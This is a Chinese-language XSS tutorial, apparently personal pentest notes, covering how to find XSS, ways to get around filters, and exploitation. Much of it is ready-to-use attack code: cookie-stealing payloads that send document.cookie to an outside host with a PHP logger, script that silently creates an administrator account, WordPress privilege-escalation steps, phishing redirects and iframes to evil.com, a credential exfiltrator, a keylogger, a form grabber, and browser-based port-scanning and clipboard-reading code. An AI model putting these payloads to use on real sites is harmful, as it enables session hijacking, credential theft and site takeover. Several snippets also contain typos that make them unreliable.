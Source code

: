 # xss漏洞挖掘

## XSS漏洞挖掘
**手动挖掘**
我们得到一个站点http://www.cracer.com/xss.php?id=1
攻击者会这样进行XSS 测试，将如下payloads 分别添加到id=1：可以测试用户输入地方、文件上传地方、flash等
闭合标签
`<script>alert(1)</script>，'"><script>alert(1)</script>，<img/src=@ onerror=alert(1)/>，'"><img/src=@ onerror=alert(1)/>`
在闭合标签的时候要注意闭合优先策略
闭合优先的标签：这些标签都是闭合优先级高于双引号完整性优先级的特殊标签。
`<!--，<iframe>，<noframes>，<noscript>，<script>，<style>，<textarea>，<title>，<xmp>`
**工具挖掘**
awvs
appscan
burp
xsser
xsscrapy
brutexssr
OWASP Xenotix
**反射型XSS挖掘位置**
注入点（url数据交互）
搜索框
**存储型XSS挖掘位置**
用户注册所有提交表单
修改资料的各种表单
用户名，client-ip，x-forwarded-for，referrer，cookie
留言板
一切可能会留到数据库的表单都可以去尝试插xss



## XSS防御绕过
**标签闭合**
盲闭合标签：
`'"/></div></td></tr></textarea><script>alert(/xss/)</script>`
有时会导致页面排版错乱
如果由长度限制，则可以一个一个试
**改变大小写**
在测试过程中，我们可以改变测试语句的大小写来绕过XSS规则
比如：`<script>alert("xss");</script> 可以转换为：<ScRipt>ALeRt("XSS");</sCRipT>`
**利用空格与回车绕过**
js语法中如果没有；结束，则解释器会继续往后读取语句，这样可以利用空格或者回车来绕过xss防御
`<img src="java script:alert(/xss/);">`
**绕过 magic_quotes_gpc**
magic_quotes_gpc=ON是php中的安全设置，开启后会把一些特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\
针对开启了magic_quotes_gpc的网站，我们可以通过javascript中的String.fromCharCode方法来绕过，
`String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41）`String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串。
**XSS 尖括号过滤绕过**
一般情况下如果输出没有显示在其他标签里，那么基本上是没有办法进行攻击的，但是如果是输出到其他标签里，则可以结合上下标签进行绕过
常用的一些事件函数 `onerror`、`onmouseover`、`onload` 等（但是这里依然需要有 `<、>、=` 等符号，只能是在 `script` 才过滤）
`<img src=x onerror=alert(/1/)>`
`<p onmouseover=alert(/1/)>xxx</p>`
`<frameset onload=alert(/1/)>`
`<body onload=alert(/1/)>`
**XSS 括号过滤绕过**
很多时候不仅仅是需要得到 `Cookie` 等，还需要传播（`XSS` 蠕虫）
通过 `src` 引入外部文件，利用代码写在外部文件中（外部文件后缀可以不为 `.js`）也可以绕过长度限制
`<script src='1.js'></script>`
**长度限制绕过**
前端限制：修改html中的maxlength长度限制
后端限制：极限缩短xss代码，使用短域名
拆分跨站法绕过：如果长度限制很严格时，可以将上传的shellcode拆分为多个语句，赋值给一个变量，当全部语句写入网页后，使用eval函数执行变量中存储的shellcode，从而触发xss
**Xss的编码绕过**
html实体编码：例如：`&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x29`;*html实体编码要编码标签内的内容，不能把标签编码，即编码完要满足两边要有标签*
进制类：例如：`\x61\x6c\x65\x72\x74\x60\x78\x73\x73\x60`，某些时候，也有不带x,例如：\5c\6a
Unicode：例如：`\u0061\u006c\u0065\u0072\u0074\u0060\u4e2d\u6587\u4e5f\u53ef\u4ee5\u0060`
纯转义：例如：`\'   \"   \<   \>` ,这样的在特殊字符前加\进行转义。
**使用html标签属性执行xss绕过**
很多html标签支持javascript:[code]伪协议形式
例如：`<table background="javascript:alert(/xss/)"></table>`
`<img src="javascript:alert(/xss/);">`
**利用html中事件绕过**
如果对于`<script>`标签拦截的较死，可以试试利用html中的事件函数，click，mouseover，load等
例子：`<input type="button" value="click me" onclick="alert(/xss/)" />`
`<img src="#" onerror="alert(/xss/)">`
**利用css跨站绕过**
css样式表中执行javascript代码同样具有隐蔽性，但是缺点是各个浏览器之间不能通用
例子：`<div style="background-image:url(javascript:alert(/xss/))"></div>`
IE5之后版本也可以使用css中的expression，例子：`<div style="width: expression(alert(/xss/));">`




# xss漏洞利用

## XSS cookie盗用与利用
**cookie获取原理**
需要在一个存在存储型xss或者反射型xss的网站写入盗取cookie的xss代码
用户浏览网页就会被盗取cookie
一般欺骗的是插入xss的网站的cookie
**获取cookie的方法**
方式1：
`<script>documnet.location="http://www.test.com/cookie.asp?cookie='+documnet.cookie"</script>`
方式2：
`<img src="http://www.test.com/cookie.asp?cookie='+document.cookie"></img>`
方式3：
`<script>new Image().src="http://www.test.com/cookie.asp?cookie='+document.cookie" </script>`
方式4：
`<script> document.write('<img src="http://www.test.com/cookie.asp?cookie='+document.cookie+'" width=0 height=0 border=0 />'); </script>`
**接受cookie**
`<?php $cookie=$_GET('cookie');$log=fopen("cookie.txt","a");fwrite($log,$cookie ."\n");fclose($log);?>`

  


  
## XSS会话劫持
**xss实现权限提升**
首先需要一个存储型xss漏洞，例如留言板等等
如果管理员进入后台将会被劫持
例如：利用xss漏洞添加一个管理员账号，需要截取添加管理员账号时的http请求信息
使用xmlhttp对象在后台发送这个请求
xss shellcode：
`var request=false;`
`if(window.XMLHttpRequest){`
`request=new XMLHttpRequest();`
`if(request.overrideMimeType){`
`request.overrideMimeType('text/xml');`
`}`
`}`
`else if(window.ActiveXObject){`
`var versions=['Microsoft.XMLHTTP','MSXML.XMLHTTP','Microsoft.XMLHTTP','Msxml2.XMLHTTP.7.0','Msxml2.XMLHTTP.6.0','Msxml2.XMLHTTP.5.0','Msxml2.XMLHTTP.4.0','MSXML2.XMLHTTP.3.0','MSXML2.XMLHTTP'];`
`for(var i=0;i<versions.length;i++){`
`try{`
`request=new ActiveXObject(versions[i]);`
`} catch(e){}`
`}`
`}`
`xmlhttp=request;`
`add_admin();`
`function add_admin(){`
`var url="............./abc.asp"`    请求地址
`var params="................." `    提交的数据（截取管理员提交的post数据）
`xmlhttp.open("POST",url,true);`
`xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");`
`xmlhttp.setRequestHeader("Content-length",params.length);`
`xmlhttp.setRequestHeader("Connection","close");`
`xmlhttp.send(params);`
`}`
**wordpress中利用xss提权**
wordpress中含有nonce防护机制（每个http请求中包含nonce字段，防止csrf攻击）
但是对于store xss，nonce并不起作用
首先创建一个js函数，向创建用户url发送http请求，并且使用正则表达式找到nonce值
拿到nonce值，则可以发送http请求创建一个拥有admin权限的用户
上传jscode，防止坏字符
首先将js代码改编为一行模式，使用网站：https://jscompress.com 工具
使用encode函数加密js代码，防止发送过程中含有坏字符
`function encode_to_javascript(string){`
`var input=string`
`var output="";`
`for(pos=0;pos<input.length;pos++){`
`output+=input.charCodeAt(pos);`
`if(pos!=(input.length-1)){`
`output+=","`
`}`
`}`
`return output;`
`}`
`let encode=encode_to_javascript("js code")`
`console.log(encode)`
将js代码转换为数字
`curl -i http://abc.com --user-agent "<script>eval(String.fromCharCode(....))</script>"`
**获取webshell**
首先需要含有xss漏洞的网页
上传一份图片码或者其他一句话木马
当管理员触发后台xss漏洞时，会劫持管理员在后台备份数据库，其中一句话也被备份进去
使用C2远控软件控制



## XSS网路钓鱼

**xss重定向钓鱼**：
将当前页面重定向到一个钓鱼网站，从而进行诈骗活动
exploit：
`http://www.bug.com/index.php?search="'><script>document.location.href="http://www.evil.com"</script>`
**HTML注入钓鱼**:
直接利用xss漏洞将html/javascript代码注入到页面中
exploit：
`http://www.bug.com/index.php?search="'<html><head><title>login</title></head>`
`<body><div style="test-align: cneter;"><form Method="POST" Action="phishing.php" Name="form"><br /><br />Login:<br /><input name="login" /><br />Password:<br /><input name="password" type="password" /><br /><br /><input name="Valid" value="ok" type="submit" /><br /></form></div></body></html>`
**XSS跨框架钓鱼**：
通过\<iframe\>标签嵌入一个远程页面实施钓鱼，页面依然会停留在当前域名下
exploit：
`http://www.bug.com/index.php?search='><iframe src="http://www.evil.com" height="100%" width="100%"></iframe>`
**XSS phishing**
首先创建钓鱼页面，一般时网页登录页面，并且修改上传目标
搭建记录信息的远程服务器，当输入账号密码时写入logfile.txt文件里，并且使用php的header()函数实现页面跳转
最后写入xss代码，用户访问这个链接时，会远程加载xss.js文件，会创建一个iframe框架覆盖页面，要求用户输入账号密码，输入后返回正常页面
账号密码会保存在logfile.txt中
**高级钓鱼技术**
直接读取用户账号密码（httponly使用）
exploit：
`<script>`
`Form=document.forms["userslogin"];`
`Form.onsubmit=function(){`
`var iframe=document.createElement("iframe");`
`iframe.style.display="none";`
`alert(Form.user.value);`
`iframe.src="http://127.0.0.1/phishing.php?user="+Form.user.value+"&pass="+Form.pass.value;`
`document.body.appendChild(iframe);`
`}`
`</script>`
键盘记录器
exploit：
`<script>`
`function keyDown(){`
`var keycode=event.keyCode;`
`var realkey=String.fromCharCode(event.keyCode);`
`alert("按键码："+keycode+"字符："+realkey);`
`}`
`document.onkeydown=keyDown;`
`</script>`
遍历form表单抓取重要字段值
exploit：
`function grabber(){`
`F=document.forms;`
`for(var j=0;j<F.length;++j){`
`f=F[j];`
`for(i=0;i<f.length;++i){`
`if(f[i].type.toLowerCase()=="password"){`
`alert("Password:"+f[i].value)`
`}`
`else if(f[i].type.toLowCase()!="submit"){`
`alert("Text:"+f[i].value)`
`}`
`}`
`}`
`}`


  
## XSS客户端信息刺探
**javascript实现端口扫描**
原理
利用img.src属性，对远程服务器发送img请求，如果img属性onerror返回错误则端口开放，如果链接超时则端口关闭
exploit：
`<form>`
`<label for="target">target</label><br/>`
`<input type="text" name="target" value="eg:www.baidu.com"><br/>`
`<label for="port">port</label><br/>`
`<label for="timeout">timeout</label><br/>`
`<input type="text" name="timeout" value="1000"/><br/>`
`<label for="result">result</label><br/>`
`<textarea id="result" name="result" rows="7" cols="50"></textarea><br/>`
`<input class="button" type="button" value="scan" onClick="javascript:scan(this.form)" />`
`</form>`
`<script>`
`var AttackAPI={`
`	AttackAPI.PortScanner={}`
`    AttackAPI.PortScanner.scanPort=function(callback,target,port,timeout){`
`        var timeout=(timeout==null)?100:timeout;`
`        var img=new Image();`
`        img.onerror=function(){`
`            if(!img) return;`
`            img=undefined;`
`            callback(target,port,'open');`
`        };`
`        img.onload=img.onerror;`
`        img.src='http://'+target+':'+port;`
`        setTimeout(function(){`
`             if(!img) return;`
`             img=undefined;`
`             callback(target,port,'close');`
`        },timeout);`
`    };`
`    AttackAPI.PortScanner.scanTarget=function(callback,target,ports,timeout){`
`        for(index=0;index<ports.length;index++)`
`                AttackAPI.PortScanner.scanPort(callback,target,ports[index],timeout);  `
`    };`
`}`
`</script>`
`<script>`
`var result=document.getElementById('result');`
`var callback=function(target,port,status){`
`    result.value+=target+':'+port+' '+status+"\n";`
`};`
`var scan=function(form){`
`    AttackAPI.PortScanner.scannTarget(callback,form.target.value,form.port.value.split(','),form.timeout.value);`
`};`
`</script>`
**截获剪贴板内容**
原理
使用window.clipboardData对象处理剪贴板内容，主要有三个方法：clearData(sDataFormat)//删除剪贴板中指定格式数据，getData(sDataFormat)//从剪贴板中获取指定格式数据，setData(sDataFormat,sData)//给剪贴板赋予指定格式内容
exploit：
`<form id="test" action="test.php" method="post">`
`<div id="someData">`
`<textarea row="4" cols="40" name="test">  </testarea>`
`<input type="button" value="复制到剪贴板" onclick="setClipboard()">`
`<input type="button" value="查看剪贴板内容" onclick="readClipboard()">`
`<input type="button" value="清除" onclick="window.clipboardData.clearData('text');">`
`</form>`
`<script>`
`function readClipboard(){`
`     alert(window.clipboardData.getData('Text'));`
`}`
`function setClipboard(){`
`     var t=document.getElementById("someData").innerText;`
`     window.clipboardData.setData('text',t);`
`}`
`</script>`
**获取客户端IP**
方法一：可以使用ActiveXObject对象的属性GetIPAddress方法获取客户端ip，但是知识获取的是内网地址
方法二：可以利用外网ip查询网站来获得客户端ip地址
exploit：
`<script>`
`xml=new ActiveXObject("Microsoft.XMLHTTP");`
`xml.open("GET","http://www.ip138.com/ip2city.asp",false);`
`xml.send();`
`kk=xml.ResponseText;`
`i=kk.indexOf("[");`
`ie=kk.indexOf("]");`
`ip=kk.substring(i+1,ie);`
`document.write("ip地址为："+ip);`
`</script>`


  
  
  
  